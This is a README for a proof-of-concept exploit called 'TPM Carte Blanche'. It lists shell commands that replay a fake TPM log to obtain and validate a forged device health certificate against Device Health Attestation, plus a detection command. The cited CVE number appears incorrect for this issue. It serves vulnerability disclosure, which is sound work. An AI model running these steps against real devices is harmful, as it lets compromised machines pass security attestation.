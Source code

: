 # CVE-2021-44229: TPM Carte Blanche

This Proof-Of-Concept demonstrates the exploitation of CVE-2021-44229.

## Technical details

Technical details about the exploit is available at [writeup.md](writeup.md).

## Detection
```shell
sudo bugtool
```

## Exploit proof-of-concept

```shell
# Extend the fake log
sudo dhatool --log=path/to/log/file --bank=sha256 replay
# Self test
sudo attest-tool --log=path/to/log/file self-test
# Get AIK cert
sudo akcli
# Fetch a health cert
sudo dhatool --log=path/to/log/file --bank=sha256 --aik=path/to/aik getcert
# Validate the health cert against DHA with the current time as a nonce
NONCE=$(echo "obase=16; $(date +%s%N)" | bc); echo ${NONCE}
# normally the MDM generates a nonce, asks the device for claims and then validates against DHA
sudo dhatool --cert=path/to/healthcert --bank=sha256 --aik=path/to/aik --nonce=$NONCE validate
```


## Credits

Chris Fenner (cfenn@)

